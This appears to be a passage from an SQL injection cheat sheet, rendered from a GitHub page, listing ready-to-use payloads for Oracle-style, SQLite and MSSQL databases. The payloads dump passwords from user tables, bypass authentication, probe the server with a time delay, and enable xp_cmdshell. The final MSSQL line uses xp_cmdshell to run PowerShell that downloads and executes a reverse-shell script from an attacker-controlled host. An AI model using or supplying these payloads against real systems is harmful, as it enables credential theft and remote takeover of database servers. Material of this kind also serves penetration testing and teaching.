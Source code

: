 - > dump

```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--

```

## SQLite Injection

- > extracting table names, not displaying standard sqlite tables

```
<http://site.com/index.php?id=-1> union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--

```

- > extracting table users

```
<http://site.com/index.php?id=-1> union select 1,2,3,group_concat(password),5 FROM users--

```

- > Reference

https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

## MSSQL Injection

- > Bypass Authentication

```
' or 1=1--

```

- > get version+delay

```
' SELECT @@version; WAITFOR DELAY '00:00:10'; —

```

- > Enable xp_cmdshell

```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

```

- > RCE

```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--

```
